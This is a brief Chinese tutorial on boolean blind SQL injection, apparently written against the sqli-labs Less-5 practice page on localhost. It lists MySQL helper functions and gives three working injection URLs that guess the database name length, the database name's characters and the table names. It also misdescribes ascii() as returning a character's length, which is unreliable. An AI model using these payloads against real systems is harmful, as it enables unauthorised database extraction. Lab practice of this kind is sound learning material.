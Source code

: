 # 

# SQL注入—布尔盲注

![](https://pic.imgdb.cn/item/64c4e4561ddac507cc81da4d.jpg)

## 相关函数

- if(a, b, c) : 如果 a 为真，执行 b；如果 a 为假，执行 c
- mid(a, b, c) : 从字符串 a 的第 b 位起(从 1 开始算)，截取 c 个字符
- substr(a, b, c) : 从字符串 a 的第 b 位起(从 1 开始算)，截取 c 个字符
- left(a, c) : 从字符串 a 的最左边起，截取 c 个字符
- length('s') : 获取字符串 s 的长度
- ascii('c') : 获取字符 c 的长度


​	

## 判断数据库名长度

```mysql
http://127.0.0.1/sql/Less-5/index.php?id=1' and length(database())=8--+ #页面正常
```

​	

## 猜解数据库名

```mysql
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))=115--+ #页面正常
```

​	

## 猜解表名

```mysql
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+ #页面正确
```


